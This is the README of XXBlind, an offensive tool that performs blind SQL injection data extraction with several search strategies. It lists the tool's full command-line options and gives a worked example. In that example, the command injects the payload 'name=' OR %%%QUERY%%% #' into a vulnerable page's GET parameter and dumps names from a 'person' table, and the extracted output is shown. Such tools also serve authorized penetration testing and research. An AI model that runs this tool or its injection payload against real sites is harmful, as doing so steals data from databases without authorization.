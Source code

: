 XXBlind
=======

XXBlind, eXtremely fast data eXtraction via blind SQL injection.

The tool can perform attacks against local databases or vulnerable remote
sites. It implements different methods for data extraction, i.e.,
brute-forcing, binary search, probabilistic binary search weighted on single
letters, probabilistic binary search weighted on bigrams and dictionary based
search. By using multi-threading, xxblind supports fast searches for increased
efficiency.

### Requirements

* Python 2.7 or greater (Python 3.X supported)

### Usage

	usage: xxblind [-h] [-U] [-i] [-c COOKIE] [-y SUCCESS] [-s SAMPLE]
	               [-d DICTIONARY] [-O {0,1,2,3,4}] [-q QUERY] [-Q QROWLEN]
	               [-R QROWNUM] [-S QSEPS] [-W QWORDS] [-F FILTER] [-e SEPARATORS]
	               -t TABLE -f FIELDS [-T THREADS] [-v] [-u URL]
	               [-g [GET [GET ...]]] [-p [POST [POST ...]]] [-l LOCALDB]
	
	Optimizated data retrieval via blind SQLi
	
	optional arguments:
	  -h, --help            show this help message and exit
	  -U, --upper           if specified, parse the uppercase version of sample
	                        file
	  -i, --quiet           turn off output
	  -c COOKIE, --cookie COOKIE
	                        pass the data as a cookie
	  -y SUCCESS, --success SUCCESS
	                        look for this string in the HTML page in case of SQLi
	                        success
	  -s SAMPLE, --sample SAMPLE
	                        specify a sample text to parse for collecting
	                        statistical informations
	  -d DICTIONARY, --dictionary DICTIONARY
	                        specify a dictionary file to fill missing words in the
	                        sample file
	  -O {0,1,2,3,4}, --optimize {0,1,2,3,4}
	                        perform an optimized binary search. Use 0 for no
	                        optimization (linear search), 1 for binary search, 2
	                        for binary search using letters frequency, 3 for
	                        binary search using digrams frequency and 4 for
	                        dictionary search
	  -q QUERY, --query QUERY
	                        specify a query for character extraction
	  -Q QROWLEN, --qrowlen QROWLEN
	                        specify a query for extracting row length
	  -R QROWNUM, --qrownum QROWNUM
	                        specify a query for extracting the number of rows
	  -S QSEPS, --qseps QSEPS
	                        specify a query for extracting the position of
	                        separators in each row
	  -W QWORDS, --qwords QWORDS
	                        specify a query for words extraction
	  -F FILTER, --filter FILTER
	                        specify one or more conditions in every query
	  -e SEPARATORS, --separators SEPARATORS
	                        specify the separators
	  -t TABLE, --table TABLE
	                        specify a table
	  -f FIELDS, --fields FIELDS
	                        specify one or more fields to dump
	  -T THREADS, --threads THREADS
	                        specify the maximum number of concurrent threads
	  -v, --version         show program's version number and exit
	  -u URL, --url URL     target url
	  -g [GET [GET ...]], --get [GET [GET ...]]
	                        define a list of GET variables
	  -p [POST [POST ...]], --post [POST [POST ...]]
	                        define a list of POST variables
	  -l LOCALDB, --localdb LOCALDB
	                        target db for simulation purposes. Pass parameters for
	                        connecting in the form of host:user:pwd:dbname

### Examples

A typical invocation of the tool consists in specifying the vulnerable page, a
list of GET or POST parameters, the string to look for when the SQLi succeeds,
the field of the table to be extracted and the table name, the type of attack,
a text for sampling words and computing frequency analysis and the number of
threads.

The following command dumps the name field of the table person by performing a
dictionary based search using 3 parallel threads:

	xxblind -u "http://192.168.56.101/vulnerable.php" \
	        -g "name=’ OR %%%QUERY%%% #" -y "found" \
	        -f name -t person -O4 \
	        -s samples/names_it.txt -T3
	[*] Performing dictionary search
	[*] Getting separator positions
	[*] Extracted data
	--------------------------------
	flaminia
	riccardo
	marco
	--------------------------------
	Total time (s): 1.18442893028
	Parallel threads: 3
	Total queries: 59, Total chars: 21
	Queries/Chars ratio: 2.80952380952

